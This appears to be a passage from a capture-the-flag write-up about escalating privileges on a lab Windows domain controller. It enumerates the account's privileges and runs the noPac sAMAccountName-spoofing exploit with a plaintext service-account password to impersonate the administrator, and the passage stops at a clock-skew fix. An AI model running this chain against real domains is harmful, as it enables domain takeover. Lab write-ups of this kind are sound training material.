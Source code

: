 ```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

damn!

they have a lot of priv:
```
SeIncreaseWorkingSetPrivilege
SeBackupPrivilege
SeRestorePrivilege
SeMachineAccountPrivilege
```
all stand out to me.

we have used SeBackupPrivilege before, lets look at others... ill google to see if i can find any exploits that are handy...

i found this for SeMachineAccountPrivilege via google:
`https://www.hackingarticles.in/windows-privilege-escalation-samaccountname-spoofing/`

```
python3 noPac.py return.local/svc-printer:'1edFg43012!!' -dc-ip 10.10.11.108 -shell --impersonate administrator -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
    
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target printer.return.local
[*] will try to impersonate administrator
[*] Adding Computer Account "WIN-P4XLH2IYXF6$"
[*] MachineAccount "WIN-P4XLH2IYXF6$" password = 0Mq50UBEY!H1
[*] Successfully added machine account WIN-P4XLH2IYXF6$ with password 0Mq50UBEY!H1.
[*] WIN-P4XLH2IYXF6$ object = CN=WIN-P4XLH2IYXF6,CN=Computers,DC=return,DC=local
[*] WIN-P4XLH2IYXF6$ sAMAccountName == printer
[-] GetTGT error, error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[*] Reseting the machine account to WIN-P4XLH2IYXF6$
[*] Restored WIN-P4XLH2IYXF6$ sAMAccountName to original value
                                                                   
```
no bueno lets run:
```
sudo ntpdate 10.10.11.108
```
